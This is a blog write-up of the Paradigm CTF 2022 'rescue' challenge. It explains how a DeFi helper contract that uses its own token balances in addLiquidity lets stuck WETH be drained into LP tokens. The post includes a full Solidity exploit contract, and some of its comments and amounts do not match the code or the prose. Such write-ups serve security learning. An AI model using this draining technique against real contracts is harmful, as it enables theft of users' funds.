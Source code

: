 ```yaml
---
layout: post
title:  "Paradigm CTF Rescue Challenge Explained"
date:   2022-08-28 11:57:16 +0800
---
```


Two weeks ago I had the opportunity to participate in Paradigm CTF 2022, a well known event in the Web3 security space. This was my first "live" CTF I had ever done and I was happy with how I went overall, but I could have done better when it came to familiarity with tools and time management. The difficulty of the challenges were definitely an eye opener into how much I still have to learn as a security researcher, there were many I missed that I plan to solve (and make writeups for) in the future.

One of the challenges that I solved was named "rescue", where we have to recover 10 wrapped Ether had been accidentally sent to a newly deployed `MasterChefHelper` contract. This contract was made to easily exchange tokens for LP tokens for a given SushiSwap liquidity pool. You pass as arguments the pool you want to provide liquidity to, the token contract, amount of tokens that you want to exchange, as well as an optional minimum out of LP tokens. Upon calling the function `swapTokenForPoolToken` your input tokens are converted into the two tokens supported by the LP and then liquidity is provided, returning LP tokens to the caller.

{% highlight solidity %}
function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
        // @note Get the liquidity pool (token) address for the given pool ID
        (address lpToken,,,) = masterchef.poolInfo(poolId);
        // @note Get the two tokens for the given liquidity pool (token)
        address tokenOut0 = UniswapV2PairLike(lpToken).token0();
        address tokenOut1 = UniswapV2PairLike(lpToken).token1();

        // @note Approvals for all three tokens, nothing special
        ERC20Like(tokenIn).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut1).approve(address(router), type(uint256).max);

        // @note Transfer `amountIn` of `tokenIn` to this contract
        ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);

        // @note Swap half of the `tokenIn` tokens for `tokenOut0`
        _swap(tokenIn, tokenOut0, amountIn / 2);
        // @note Swap half of the `tokenIn` tokens for `tokenOut0`
        _swap(tokenIn, tokenOut1, amountIn / 2);

        // @note Add liquidity and send LP tokens to `msg.sender'
        _addLiquidity(tokenOut0, tokenOut1, minAmountOut);
}
{% endhighlight %}

If we look at `_addLiquidity()` we see that the amount of tokens to send to `router.addLiquidity()` is determined by the balance of each token rather than a fixed amount determined by the users input `amountIn` from `swapTokenForPoolToken()`. Since the input tokens are split and swapped equally between an LPs `token0` and `token1`, if the LP were to contain WETH there would be an imbalance. Let's say that 1WETH = 1,000USDT and we call `_addLiquidity()` to exchange 1WETH and 1,000USDT for LP tokens. Since their value is the same, all tokens are used and LP tokens are returned. In our case the value will not be the same, because the amount is retrieved from the balance. So if we wanted to exchange 1WETH and 1,000USDT for LP tokens, the balance check would cause the call to `router.addLiquidity()` to pass 11WETH and 1,000USDT. It would be 11WETH because the amount is determined by `balanceOf()` and since we accidentally sent 10WETH to this contract, we have the 1WETH plus the 10WETH.

{% highlight solidity %}
function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
        (,, uint256 amountOut) = router.addLiquidity(
                token0,                                     // @note token0
                token1,                                     // @note token1
                ERC20Like(token0).balanceOf(address(this)), // @note amount0Desired
                ERC20Like(token1).balanceOf(address(this)), // @note amount1Desired
                0,                                          // @note amount0Min
                0,                                          // @note amount1Min
                msg.sender,                                 // @note to
                block.timestamp                             // @note deadline
        );
        // @note Ensure that enough LP tokens were created
        require(amountOut >= minAmountOut);
}
{% endhighlight %}

The `router.addLiquidity()` function returns unused amounts, so the 10WETH would remain in the `MasterChefHelper` contract. If we are able to make the 10WETH used by `router.addLiquidity()`, they would be converted into LP tokens and sent to the caller which would be us. We can do this by also sending 10WETH worth of the other token in the pool. Let's go back to our WETH and USDT example, where if we also sent 10WETH worth of USDT (10000) then it would be 11WETH and 11000USDT. The value of these amounts are equal so they will all be consumed and converted into LP tokens which are sent back to us.

To save any errors when developing the solution I assumed that my input token couldn't be the same as any of the tokens in my target LP, so I chose to exchange USDC tokens for USDT-WETH LP tokens. I also made sure to transfer a little more than 10WETH worth of USDT to the `MasterChefHelper` contract because I was concerned that if I used the exact amount there may be a little amount of dust left, but the challenge requires the balance to be exactly zero. In summary here are the steps needed to complete the challenge:

1. Swap 10.1 WETH for USDT
2. Swap 1 WETH for USDC
3. Transfer all USDT (10.1 WETH worth) to the `MasterChefHelper` contract
4. Call `swapTokenForPoolToken` and provide all the USDC balance
5. During the call to `router.addLiquidity()` the 10.1WETH worth of USDT matches up with the 10WETH and it is converted into LP tokens which are sent to us

My exploit contract is shown below:

{% highlight solidity %}
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.9;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

interface IWETH9 is IERC20 {
    function deposit() external payable;
}

interface UniswapV2RouterLike {
    function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);

    function addLiquidity(
        address tokenA,
        address tokenB,
        uint amountADesired,
        uint amountBDesired,
        uint amountAMin,
        uint amountBMin,
        address to,
        uint deadline
    ) external returns (uint amountA, uint amountB, uint liquidity);
}

interface IMasterChefHelper {
    function swapTokenForPoolToken(
        uint256 poolId,
        address tokenIn,
        uint256 amountIn,
        uint256 minAmountOut
    ) external;
}

contract Attack {

    // SafeERC20 is needed for USDT
    using SafeERC20 for IERC20;

    // Wrapped Ether contract
    IWETH9 constant weth = IWETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    // USDT contract
    IERC20 constant usdt = IERC20(0xdAC17F958D2ee523a2206206994597C13D831ec7);

    // USDC contract
    IERC20 constant usdc = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

    // Sushiswap router
    UniswapV2RouterLike constant router = UniswapV2RouterLike(0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F);

    // Masterchef helper
    IMasterChefHelper constant mshelper = IMasterChefHelper(0x81d8AD854367fb9D66c0BA37D9cA4269a7631A9C);

    constructor() payable {
        // Need enough Ether for attack
        require(msg.value == 50 ether, "Need 50 Ether");

        // Get 50 Wrapped Ether
        weth.deposit{value: 50 ether}();

        // Exchange 15 WETH for USDT
        address[] memory pathc = new address[](2);
        pathc[0] = address(weth);
        pathc[1] = address(usdc);

        weth.approve(address(router), 1 ether);

        router.swapExactTokensForTokens(
            1 ether,
            0,
            pathc,
            address(this),
            block.timestamp
        );

        // Exchange 15 WETH for USDT
        address[] memory patht = new address[](2);
        patht[0] = address(weth);
        patht[1] = address(usdt);

        weth.approve(address(router), 15 ether);

        router.swapExactTokensForTokens(
            15 ether,
            0,
            patht,
            address(this),
            block.timestamp
        );

        // Get USDT balance
        uint256 usdt_balance = usdt.balanceOf(address(this));

        // Transfer USDT balance (15 Ether worth) to MasterChefHelper
        usdt.safeTransfer(address(mshelper), usdt_balance);

        // Get USDC balance
        uint256 usdc_balance = usdc.balanceOf(address(this));

        // Approve a transfer of USDC to MasterChefHelper
        usdc.approve(address(mshelper), usdc_balance);

        // Attempt a swap
        mshelper.swapTokenForPoolToken(
            0,
            address(usdc),
            usdc_balance,
            0
        );
    }
}
{% endhighlight %}

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
